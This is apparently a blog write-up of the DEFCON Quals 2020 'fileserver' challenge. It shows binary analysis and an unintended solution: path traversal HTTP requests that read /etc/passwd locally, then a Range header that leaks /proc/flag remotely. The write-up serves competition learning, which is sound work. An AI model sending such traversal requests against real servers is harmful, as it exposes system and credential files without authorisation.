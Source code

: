 ```yaml
---
title: "Pwning a DEFCON Quals binary without pwning it"
categories:
  - Blog
tags:
  - Pwning
  - Exploitation
---
```


Story time, before getting to the write up. I played the pwnables of DEFCON Quals 2020, mainly because it's very fun, and also because I wanted to see what the content would look like, given the remote nature of the contest.

I ended up pwning all three of them, and the writeups can be found [here](https://github.com/naliferopoulos/defcon-quals-2020). Err, not exactly though. I managed to get the last flag, *fileserver*, without pwning the binary whatsoever and that ended up in a fun chat with the DEFCON staff, as well as a prize award! Thanks guys! :)

### DEFCON Qualifiers - Fileserver

For this one, we were given a domain name and a port, but no binary. Behind the remote port there was a webserver, which seemed custom made, and among other things, allowed us to download a compiled copy of itself (we figured that out later on) targeted against 32-bit Linux. 

Evidently, at the time, I though that I was supposed to pwn the binary in order to win. The challenge, just like the previous ones, instructed us to find the flag at */proc/flag*, a fact I did not mention for the previous ones, but which plays an important role for this one.

On to the write up though.

#### Huh?

At first glance, the binary looks like this:

```bash
➜  fileserver checksec target
[*] '/vagrant/DEFCON/fileserver/target'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Also, readelf shows the following, as far as symbols are concerned (basic *snip snip* has occured):

```bash
➜  fileserver readelf -s target | grep -v "@GLIB"

Symbol table '.symtab' contains 127 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    38: 08048cda   218 FUNC    LOCAL  DEFAULT   14 rio_read
    39: 08049320   110 FUNC    LOCAL  DEFAULT   14 get_mime_type
    56: 0804972f    98 FUNC    GLOBAL DEFAULT   14 log_access
    58: 0804c0e0   112 OBJECT  GLOBAL DEFAULT   25 meme_types
    67: 08049498   154 FUNC    GLOBAL DEFAULT   14 url_decode
    69: 08049c5f   553 FUNC    GLOBAL DEFAULT   14 process
    74: 0804c150     4 OBJECT  GLOBAL DEFAULT   25 default_mime_type
    85: 08048f4d   979 FUNC    GLOBAL DEFAULT   14 handle_directory_request
    91: 08048db4   137 FUNC    GLOBAL DEFAULT   14 rio_readlineb
    95: 08049b8e   209 FUNC    GLOBAL DEFAULT   14 display_admin_page
   103: 08049e88   371 FUNC    GLOBAL DEFAULT   14 main
   113: 08048c59   129 FUNC    GLOBAL DEFAULT   14 writen
   114: 08049532   509 FUNC    GLOBAL DEFAULT   14 parse_request
   117: 08048c2b    46 FUNC    GLOBAL DEFAULT   14 rio_readinitb
   120: 0804938e   266 FUNC    GLOBAL DEFAULT   14 open_listenfd
   122: 080498b7   727 FUNC    GLOBAL DEFAULT   14 serve_static
   126: 08049791   294 FUNC    GLOBAL DEFAULT   14 client_error
```

The binary is fully symbolicated, but it still contains a bunch of functionality, so we are going to have to take a deeper look at this.

Before doing so, I decided to take a look at the fileserver instance running on the remote host, in order to get a better feel for the target before jumping into static analysis.

That is when I noticed a path traversal vulnerability. By issuing the following HTTP request:

```
➜  fileserver

GET /../../../../../../etc/passwd HTTP/1.0
```

I received the following response:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-length: 1561
Content-type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
statd:x:108:65534::/var/lib/nfs:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:900:900:vagrant,,,:/home/vagrant:/usr/bin/zsh
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
```

That is when I got excited, and tried it against the remote host, without any luck. I could only reproduce it locally. While the vulnerability was present, I could not force the server to return the file to me. I could only list directories using the traversal. Bummer :/

I then scrapped the idea of dynamically getting a feel of the target, considering that the challenge category was pwning, and loaded the binary into IDA. After browsing around the disassembly for a bit, the following caught my attention. During *parse_request*, the binary treated incoming requests differently, based on the presence of a Range HTTP Request Header, or more accurately, **"Ran"**.

```
.text:080495BA                 sub     esp, 4
.text:080495BD                 push    400h
.text:080495C2                 lea     eax, [ebp+s1]
.text:080495C8                 push    eax
.text:080495C9                 lea     eax, [ebp+var_420]
.text:080495CF                 push    eax
.text:080495D0                 call    rio_readlineb
.text:080495D5                 add     esp, 10h
.text:080495D8                 movzx   eax, [ebp+s1]
.text:080495DF                 cmp     al, 52h ; 'R'
.text:080495E1                 jnz     short loc_8049644
.text:080495E3                 movzx   eax, [ebp+var_81F]
.text:080495EA                 cmp     al, 61h ; 'a'
.text:080495EC                 jnz     short loc_8049644
.text:080495EE                 movzx   eax, [ebp+var_81E]
.text:080495F5                 cmp     al, 6Eh ; 'n'
.text:080495F7                 jnz     short loc_8049644
.text:080495F9                 mov     eax, [ebp+arg_4]
.text:080495FC                 lea     edx, [eax+204h]
.text:08049602                 mov     eax, [ebp+arg_4]
.text:08049605                 add     eax, 200h
.text:0804960A                 push    edx
.text:0804960B                 push    eax
.text:0804960C                 lea     eax, (aRangeBytesLuLu - 804C000h)[ebx] ; "Range: bytes=%lu-%lu"
.text:08049612                 push    eax
.text:08049613                 lea     eax, [ebp+s1]
.text:08049619                 push    eax
.text:0804961A                 call    ___isoc99_sscanf
```

We can follow the bahavioral change down to **serve_static**, which in the case of a Range header present, *snprintf()'s* the selected part of the file to the response buffer, while the other code path simply skips over it in the case of a file. After all, the juicy part of the (intened solution to the) challenge was getting to the admin page (*page* as in *directory*).

Bingo! While the remote instance won't let us use the directory traversal to fetch files (this is how it was intended to be played), by supplying a range header, we could get it to do so!

```
GET /../../../../../proc/flag HTTP/1.0
Range: bytes=0-90
```

Aaaaaaand:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: **redacted**
Cache-Control: no-cache
Accept-Ranges: bytes

**redacted**
```

There it is, we just got the flag using more web stuff than pwning stuff! I know that's a broad definition of what "web stuff" and "pwning stuff" is, but I contacted the DEFCON team afterwards and they informed me that this was not the inteded solution. 

Considering this, I would far more have loved to actually pwn the challenge, as it is a 400pts DEFCON Quals one, but nonetheless, the hax were for once *pretty-cool-hax™*.